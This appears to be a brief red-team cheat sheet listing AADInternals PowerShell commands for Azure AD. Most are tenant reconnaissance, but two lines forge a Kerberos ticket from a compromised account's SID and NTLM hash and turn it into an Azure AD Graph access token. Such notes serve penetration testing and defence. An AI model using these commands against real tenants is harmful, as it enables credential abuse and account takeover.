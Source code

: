 # AADInternals

## Github repo: https://github.com/Gerenios/AADInternals

### Commands:

 - Invoke-AADIntReconAsOutsider -Domain domain.local | Format-Table (Reconnaissance. Can be both from inside or outside the network)

 - $kerberos=NewAADIntKerberosTicket -SidString INTERNAL_AD_SID -Hash NTLM_HASH (Grab a Kerberos Ticket for the account mentioned on the INTERNAL_AD_SID, then use the NTLM hash of the compromised account)

 - Get-AADIntAccessTokenForAADGraph -KerberosTicket $kerberos -Domain DOMAIN.LOCAL (Initiate an access token for Azure AD Graph from the Kerberos Ticket. This is necessary so we can pass the token to use with ROADTools or any other tool we may need to use)

 - Get-AADIntLoginInformation -Domain DOMAIN.COM (Get login information about the target domain)

 - Get-AADIntTenantID -Domain DOMAIN.COM (Get tenant ID of the domain)





